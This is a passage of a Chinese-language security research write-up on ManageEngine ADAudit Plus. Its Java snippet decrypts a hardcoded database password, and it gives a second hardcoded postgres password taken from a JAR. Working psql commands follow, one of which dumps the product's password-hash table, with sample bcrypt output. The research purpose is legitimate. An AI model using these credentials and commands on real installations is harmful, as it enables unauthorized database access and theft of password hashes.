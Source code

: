 ```
        } catch (Exception var18) {
            System.out.println("Decryption failed " + var18.getMessage());
            return cipherText;
        }
    }
    public static void main(String[] args) throws Exception, Exception {
        String password = "cb26b920b56fed8d085d71f63bdd79c55ea7b98f8794699562c06ea1bedbec52087b394f";
        String encryptionKey = "8ElrDgofXtbrMAtNQBqy";
        String out  = decryptAES256(password, encryptionKey);
        System.out.println(out);
    }
}
```

程序运行后得到解密结果：`Adaudit@123$`

拼接出数据库的连接命令：`"C:\Program Files\ManageEngine\ADAudit Plus\pgsql\bin\psql" "host=127.0.0.1 port=33307 dbname=adap user=adaudit password=Adaudit@123$"`

连接成功，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2023-4-1/2-1.png)

### 2.用户`postgres`的口令获取

口令硬编码于`C:\Program Files\ManageEngine\ADAudit Plus\lib\AdventnetADAPServer.jar`中的`com.adventnet.sym.adsm.common.server.mssql.tools->ChangeDBServer.class->isDBServerRunning()`，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2023-4-1/2-2.png)

得到用户`postgres`的口令为`Stonebraker`

拼接出数据库的连接命令：`"C:\Program Files\ManageEngine\ADAudit Plus\pgsql\bin\psql" "host=127.0.0.1 port=33307 dbname=adap user=postgres password=Stonebraker"`

连接成功，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2023-4-1/2-3.png)

一条命令实现连接数据库并执行数据库操作的命令示例：`"C:\Program Files\ManageEngine\ADAudit Plus\pgsql\bin\psql" --command="SELECT * FROM public.aaapassword ORDER BY password_id ASC;" postgresql://postgres:Stonebraker@127.0.0.1:33307/adap`

返回结果示例：

```
 password_id |                           password                           | algorithm |                       salt                                         | passwdprofile_id | passwdrule_id |  createdtime  | factor
-------------+--------------------------------------------------------------+-----------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------+---------------+---------------+--------
           1 | $2a$12$e.lzmqKXyh8m8KTd9WBkxeqr90qeTrDKwBhlSsdjMf7yIlj1ygbqm | bcrypt    | \xc30c040901028b43e9beabaec7d8d24e01623a1d3e917176f836602c04ee285d87c01c64174cf0bb7c11ab314b2cc8a8507cf04b297eb410d83ba29e6b3adc208fde8b7adfbc96be5dbf53485069cb4625a7ddf9d423b4c151c46367ba58 |                3 |             1 | 1680771305487 |     12
         301 | $2a$12$abyhGRg2fsQ27NoHsR2xae8vuOFVbONpayxfctUAFpSvbM68kL1q2 | bcrypt    | \xc30c04090102c69b4884afb59f93d24e01a926a128b8a91eb20272877d093518b7ef759db0e85117467c93244d3a832a517d34e1b120164bd6717e2d5aa07ec5d95c2f5ef1c6eaed91126b649d4ee06dba3f7233f61254d1b67f7e56903c |                3 |             1 | 1681264745532 |     12
(2 rows)
``` 

